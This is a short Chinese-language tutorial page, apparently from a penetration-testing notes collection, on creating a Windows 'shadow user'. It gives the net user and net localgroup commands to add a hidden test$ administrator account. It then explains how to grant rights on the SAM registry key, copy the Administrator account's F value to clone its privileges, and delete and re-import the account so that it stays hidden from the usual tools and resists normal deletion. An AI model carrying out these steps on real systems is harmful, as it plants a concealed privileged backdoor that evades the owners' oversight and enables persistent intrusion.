 ```yaml
---
title: "影子用户"
id: zhfly3517
---
```


## 影子用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的

在用户名后面加一个`$`可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组

```
net user test$ test /add
net localgroup administrators test$ /add 
```

可以看到`net user`是看不到我们创建的用户，但是计算机管理-用户和组中可以看到

![image](../img/71fe4e6629ff96954695c8f5425caa2b.png)

所以这时候我们就需要修改一下注册表，其键位置为：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

注意：`SAM`键值默认是只能`system`权限修改的，所以我们要修改一下`SAM`键的权限，给予`administrator`完全控制和读取的权限

![image](../img/a422356c91eade660a1e3cb4cd9a3f6c.png)

然后我们将`administrator`用户对应的项中的F值复制到`test$`对应xiang中的F值，然后保存

![image](../img/ed1f2ac2b922e84e5eb0c949afffa086.png)

然后我们将`test$`删除掉

```
net user test$ /del 
```

然后再双击导出的注册表文件，然后我们再看一下

![image](../img/0b97336218752bccfc27faeb30175281.png)

`net user`和计算机管理-用户和组中都查看不到用户了，但是我们可以用`net user test$`查看用户信息

这个时候我们再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。